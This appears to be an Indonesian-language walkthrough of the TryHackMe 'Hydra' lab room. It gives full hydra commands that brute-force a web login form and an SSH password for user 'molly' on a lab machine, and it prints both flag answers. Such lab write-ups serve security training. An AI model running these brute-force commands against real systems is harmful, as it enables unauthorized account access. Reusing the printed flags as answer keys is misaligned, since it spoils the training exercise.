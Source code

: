# Solusi - Hydra
- TryHackMe Room: https://tryhackme.com/room/hydra
- IP Machine: 10.10.93.97

## Pertanyaan/Tugas:
- Buka url http://10.10.93.97 di browser, setelah dibuka kita langsung diarahkan ke halaman login

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Hydra/assets/h%201.JPG)

- Lakukan brute force untuk menemukan password dari user molly. Gunakan baris perintah `hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.93.97 http-post-form "/login:username=^USER^&password=^PASS^:incorrect"`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Hydra/assets/h%202.JPG)

- Gunakan username dan password diatas untuk melakukan login, setelah login kita berhasil mendapatkan flag1

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Hydra/assets/h%203.JPG)

**Pertanyaan:** Use Hydra to bruteforce molly's web password. What is flag 1?

**Jawaban:**
```sh
THM{2673a7dd116de68e85c48ec0b1f2612e}
```

- Lakukan brute force untuk menemukan password SSH dari user molly. Gunakan baris perintah `hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.93.97 ssh`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Hydra/assets/h%204.JPG)

- Gunakan username dan password diatas untuk mengakses SSH, setelah berhasil masuk kita berhasil menemukan file flag2.txt. Buka file tersebut menjawab pertanyaan berikutnya

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Hydra/assets/h%205.JPG)

**Pertanyaan:** Use Hydra to bruteforce molly's SSH password. What is flag 2?

**Jawaban:**
```sh
THM{c8eeb0468febbadea859baeb33b2541b}
```